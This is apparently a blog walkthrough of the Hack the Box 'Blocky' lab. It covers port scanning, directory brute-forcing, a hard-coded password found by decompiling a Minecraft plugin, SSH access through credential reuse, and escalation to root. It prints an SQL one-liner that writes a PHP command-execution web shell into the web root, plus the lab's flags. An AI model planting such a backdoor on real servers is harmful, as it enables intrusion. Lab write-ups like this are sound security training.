 ```yaml
---
title: Blocky, Hack the Box CTF Walkthrough
description: 
tag: CTF
style: blog3
image: /assets/img/posts/2021-30-04-blocky-hack-the-box-walkthrough/blocky.png
layout: post
description: "Blocky is an easy level CTF challenge from the Hack the Box Archives. Developed by Arrexel and consists of a linux machine configured as a Minecraft and wordpress server"
date:   2021-03-29 20:01:21 -0400
last-updated: 2021-03-29 20:01:21 -0400
tag: ctf
author: Tyler Butler
lead: "Using the Java Decompiler to Analyze Source Code"
card: card-2
navheader: posts
---
```



Blocky is an easy level CTF challenge from the Hack the Box Archives. Developed by [Arrexel](https://app.hackthebox.eu/users/2904), the challenge consists of a linux machine configured as a Minecraft and wordpress server. It is easy to get carried away on this challenge, especially with poking at the wordpress and minecraft server, but once the user is compromised, escalation to root is trivial. My biggest takeaway from this CTF is to expand my basic directory brute force strategy to gaurentee a greater chance of discovery. 

## Major Takeaway's 
1) Don't reply on a simple `dirb` scan to brute force server directories   
2) Ensure to test username/password pairs on multiple services 


# Basic Enumeration 

To start, I used a simple <kbd>nmap</kbd> scan to look for running services and open ports. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -sV -A -O -p- 10.10.10.37                                                                                                                                     1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-30 14:31 EDT
Nmap scan report for 10.10.10.37
Host is up (0.029s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
Device type: general purpose|WAP|specialized|storage-misc|broadband router|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (94%), Asus embedded (90%), Crestron 2-Series (89%), HP embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:5.1 cpe:/o:linux:linux_kernel:2.6
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), Linux 3.13 or 4.2 (94%), Linux 4.2 (94%), Linux 4.4 (94%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.12 (91%), Linux 3.2 - 4.9 (91%), Linux 3.8 - 3.11 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT      ADDRESS
1   31.60 ms 10.10.14.1
2   31.65 ms 10.10.10.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.01 seconds
```

The resulting scan shows several running processes. I did some basic research on each service version to check for known vulnerabilities. At first, it seemed that the ProFTPD server might be vulnerable to the `mod_copy` exploit described in CVE-2015-3306. After trying a couple different PoC exploits, the target did not seem vulnerable so I moved on. Using `gobuster`, I searched for directories on the host. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://10.10.10.37 -w /home/kali/eWPT/kali-tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.37
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/eWPT/kali-tools/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/30 14:42:00 Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 309] [--> http://10.10.10.37/wiki/]
/wp-content           (Status: 301) [Size: 315] [--> http://10.10.10.37/wp-content/]
/plugins              (Status: 301) [Size: 312] [--> http://10.10.10.37/plugins/]   
/wp-includes          (Status: 301) [Size: 316] [--> http://10.10.10.37/wp-includes/]
/javascript           (Status: 301) [Size: 315] [--> http://10.10.10.37/javascript/] 
/wp-admin             (Status: 301) [Size: 313] [--> http://10.10.10.37/wp-admin/]   
/phpmyadmin           (Status: 301) [Size: 315] [--> http://10.10.10.37/phpmyadmin/] 
```

The resulting output indicated the /plugins directory, which when browsed, showed a custom plugin called BlockCore.jar. I downloaded the file and used the java decompiler tool `jd-gui` to inspect the classes. The class blockycore uses a hard-coded username and password, root:8YsqfCTnvxAUeduzjNSXe22.


<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-30-04-blocky-hack-the-box-walkthrough/blockycore.png">
    </div>
</div>
<br/>  


# Compromise User

With a pair of found credentials, I attempted to access the wordpress site with no luck. Eventually I found that I could use the credentials to log into the phpmyadmin instance. As administrator of phpmyadmin, I was sure I could pivot to gain access to the machine. I attempted to create a new user account for the wordpress site, change the current "notch" user's password, and even upload a reverse shell using direct sql commands. None of these options worked, however a technique I came across described by Ryan Trost in the book "Practical Intrusion Analysis: Prevention and Detection for the Twenty-First Century: Prevention and Detection for the Twenty-First Century" was fairly interesting. It involves injecting  SQL command to insert a backdoor php file, 

```SQL
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/var/www/html/cmd.php”;
``` 

In this instance, this method was blocked by insufficient file permissions, but I will be sure to consider this on future challenges. Ultimately, I was able to get root by attempting to log into the ssh service with the notch user and the admin credentials found in the jar file. 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ 
```
## User Flag

```bash
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5notch@Blocky:~$ 
```

## Compromise Root 

I instinctively tried to sudo to root, and was suprised when the notch user had permissions to do so. As root, I read the final flag. 

```bash
notch@Blocky:~$ sudo su root
[sudo] password for notch: 
Sorry, try again.
[sudo] password for notch: 
root@Blocky:/home/notch# cat ../../root/root.txt
0a9694a5b4d272c694679f7860f1cd5froot@Blocky:/home/notch# 
```